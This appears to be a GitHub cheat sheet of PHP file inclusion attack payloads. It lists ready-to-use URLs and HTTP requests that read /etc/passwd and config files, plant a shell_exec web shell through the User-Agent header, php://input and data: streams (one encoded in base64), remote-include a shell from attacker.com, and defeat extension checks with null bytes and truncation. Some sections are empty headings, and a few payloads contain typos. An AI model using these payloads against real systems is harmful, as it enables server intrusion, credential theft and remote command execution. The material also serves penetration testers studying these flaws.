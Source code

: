 # Local File Inclusion

## 1) Direct Local Include
```
http://site.com/lfi.php?page=/etc/passwd
```

## 2) php://filter
```
http://www.site.com/lfi.php?page=php://filter/resource=config.php

http://www.site.com/lfi.php?page=php://filter/conver.base64-encode/resource=config.php
```

## 3) /proc/self/environ
Request's user agent can be found there

```
GET /lfi.php?page=/proc/self/environ&cmd=id HTTP/1.1
Host: www.site.com
User-Agent: <?php echo shell_exec($_GET['cmd']);?>
```

## 4) Including images
If image.jpg contains php code it will be interpreted.

```
http://www.site.com/lfi.php?page=upload/image.jpg
```

## 5) Zip and Phar wrappers
File must be zip archive with any extension

```
http://www.site.com/lfi.php?page=zip://image.zip#shell.php

http://www.site.com/lfi.php?page=phar://image.phar#shell.php

```

## 6) Session Files

## 7) PHPInfo Script

## 8) Temporary Files - Windows

## 9) Logs

# Remote File Inclusion
Works when allow_url_include in php.ini is set to TRUE

## 1) Direct Remote Include
Including php file in text format directly
```
http://www.site.com/lfi.hpp?page=http://attacker.com/shell.txt
```

## 2) Data:text/plain
Including php code through data stream
```
http://www.site.com/lfi.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>

http://www.site.com/lfi.php?page=data:text/plain;base64,PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWydjbWQnXSk7Pz4=
```

## 3) php://input

```
POST /lfi.php?page=php://input&cmd=cd HTTP/1.1
Host: www.site.com
Content-Lenth: 39

<?php echo shell_exec($_GET['cmd']);?>

```

# Fighting with extensions

## 1) Null Bytes
Add null byte that will terminate string

```
http://www.site.com/lfi.php?page=/etc/passwd%00

http://www.site.com/lfi.php?page=/etc/passwd%2500
```

## 2) Truncation

Cut extension by creating long string
```
http://www.site.com/lfi.php?page=../../../../../../../../../../../../etc/passwd
```

```
http://www.site.com/lfi.php?page=/etc/passwd..............................
```

```
http://www.site.com/lfi.php?page=/etc/passwd.\.\.\.\.\.\.\.\.\.\.\.\.\.\.\.\
```
